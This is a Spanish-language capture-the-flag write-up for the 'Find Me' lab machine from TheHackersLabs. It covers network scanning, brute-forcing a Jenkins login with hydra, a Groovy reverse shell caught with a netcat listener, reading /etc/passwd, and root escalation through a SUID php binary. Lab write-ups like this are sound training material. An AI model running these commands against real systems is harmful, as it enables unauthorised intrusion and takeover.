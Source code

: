 ```yaml
---
layout: post
title: "Find Me"
date: 2024-06-18 13:20:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Find Me </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/find-me/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/FindMe/host.png){:.margin}

**1\.** Escando dispositivos activos en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/FindMe/arp.png){:.margin}

**2\.** Escaneado puertos y servicios activos de la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.7`

![img](/notas/public/img/thehackerlabs/FindMe/nmap.png){:.margin}

**3\.** Revisando la web, por el 80 corre la web apache por defecto y en el 8080 tenemos un panel login.

`http://192.168.1.7:80`

`http://192.168.1.7:8080`

![img](/notas/public/img/thehackerlabs/FindMe/80.png){:.margin}

**4\.** Me conecto por ftp, encuentro un archivo, lo descargo para ver el contenido.

`ftp 192.168.1.7`

`dir`

`get ayuda.txt`

`cat ayuda.txt`

![img](/notas/public/img/thehackerlabs/FindMe/ftp.png){:.margin}
![img](/notas/public/img/thehackerlabs/FindMe/ayudatxt.png){:.margin}

**5\.** Creando el diccionario para la contraseña.

`crunch 5 5 -t p@@@a -o dict.txt`

`cat dict.txt`

![img](/notas/public/img/thehackerlabs/FindMe/crunch.png){:.margin}

**6\.** Haciendo fuerza bruta al login de jenkins.

`hydra -l geralt -P dict.txt -f 192.168.1.7 -s 8080 http-get`

![img](/notas/public/img/thehackerlabs/FindMe/hydra.png){:.margin}

   **7\.** Ya puedo acceder al jenkins.

![img](/notas/public/img/thehackerlabs/FindMe/jenkins.png){:.margin}

**8\.** Podemos hacer uso de la consola de jenkins, (Administrar jenkins-Script console).

![img](/notas/public/img/thehackerlabs/FindMe/console.png){:.margin}

**9\.** Obteniendo un reverse shell, podemos usar [revshell](https://www.revshells.com/) para generar codigo groovy.

_9.1- Genero la revershe shell en groovy_

![img](/notas/public/img/thehackerlabs/FindMe/revshell.png){:.margin}

_9.2- Me pongo en escucha_

`sudo nc -nlvp 443`

_9.3- Me envio la shell y obtengo la conexion_

![img](/notas/public/img/thehackerlabs/FindMe/execute.png){:.margin}
![img](/notas/public/img/thehackerlabs/FindMe/ncok.png){:.margin}

**10\.** Veo que tenemos el usuario geralt, pruebo a migrar con la misma contraseña y si, se pudo.

`cat /etc/passwd | grep sh`

`su geralt`

![img](/notas/public/img/thehackerlabs/FindMe/catpasswd.png){:.margin}

**11\.** Buscando binarios SUID, tenemos el php.

`cd /home/geralt`

`find / -perm -4000 2>/dev/null`

![img](/notas/public/img/thehackerlabs/FindMe/suid.png){:.margin}

**12\.** Escalando privilegios a root. [gtfobins](https://gtfobins.github.io/gtfobins/php/#suid).

`/usr/bin/php8.2 -r "pcntl_exec('/bin/bash', ['-p']);"`

![img](/notas/public/img/thehackerlabs/FindMe/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>